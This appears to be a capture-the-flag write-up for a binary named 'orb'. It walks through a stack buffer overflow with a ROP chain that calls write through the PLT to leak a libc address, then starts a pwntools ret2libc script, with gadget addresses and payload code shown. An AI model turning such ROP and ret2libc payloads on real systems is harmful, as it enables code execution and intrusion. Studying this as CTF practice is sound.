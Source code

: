 * Since the binary utilizes static addresses, we can check the address of the bss section as follows 
![ㅤ](../../../images/PlayCyber/20240130123415.png)


### Leaking Libc Addresses
* The write syscall , takes the following arguments `ssize_t write(int fildes, const void *buf, size_t nbyte);`
	* `fildes` is the file descriptor which can be `stdin(0)`, `stdout(1)` and `stderr(2)`. We will store this value in the `rdi` register
	* `*buf` is the buffer to write . We will store this value in the `rsi` register i.e the bss address we obtained
	* `nbyte` is the number of bytes to write. We will store this value in the `rdx` register
* To write a rop chain that calls the `write` syscall with the above parameters, we can search for suitable gadgets in the binary to use in our ropchain
![ㅤ](../../../images/PlayCyber/20240130121921.png)

* From the gadgets in the binary, we do not have the `pop rdx` gadget, we can ignore it and use the value of rdx that will be stored before execution is redirected to our ropchain. Other than that our ropchain will appear as follows
```python
# Gadgets we need 
pop_rbp_ret=0x401139#: pop rbp; ret; 
pop_rdi_ret=0x40127b#: pop rdi; ret; 
pop_rsi_r15=0x401279#: pop rsi; pop r15; ret; 
ret=0x401016#: ret;

bss=0x404010 # start of the .bss section

offset=40
payload=b"A"*offset 
payload+=p64(ret) 
payload+=p64(pop_rdi_ret) # Call the pop_rdi gadget to set the first param of the write syscall
payload+=p64(0x1) # set the first param to stdout i.e 1
payload+=p64(pop_rsi_r15) # Call the pop_rsi;pop_r15;ret gadget to set the second param of the write syscall
payload+=p64(bss) # set the second param to addr of bss i.e 0x404010
payload+=p64(0xdeadbeef) # set a random value to r15 since we don't need it
payload+=p64(elf.plt['write']) # call the write syscall in plt
```

* After sending the payload , we get a libc address leaked which we can later use to calculate the libc base address and call a `one_gadget` or `system`

![ㅤ](../../../images/PlayCyber/20240130125318.png)

* Checking the libc address leaked, we see that it points to  `_IO_2_1_stdout_` which is a function in libc
![ㅤ](../../../images/PlayCyber/20240130125218.png)

### Ret2Libc
* Now we can calculate the libc base and call system as follows
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#  @author: Remac
from pwn import *
context.binary = elf = e = ELF("./orb_patched")
context.log_level='critical'
target=process([filename])
libc_file="./glibc/libc.so.6"
libc=ELF(libc_file)

```